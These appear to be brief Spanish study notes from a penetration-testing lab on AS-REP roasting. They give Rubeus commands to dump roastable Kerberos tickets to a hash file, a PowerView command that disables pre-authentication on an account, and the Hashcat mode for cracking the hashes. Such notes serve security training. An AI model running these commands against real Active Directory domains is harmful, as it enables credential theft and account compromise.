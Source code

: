 # Rubeus:

### Traer todos los tickets asreproasteables

    .\Rubeus.exe asreproast /nowrap
### Traer el ticket de un usuario en específico

    .\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt

### asignar el DONT_REQ_PREAUTH CON POWERVIEW

    Set-DomainObject -Identity <USER> -XOR @{useraccountcontrol=4194304} -Verbose
Hashcat 18200

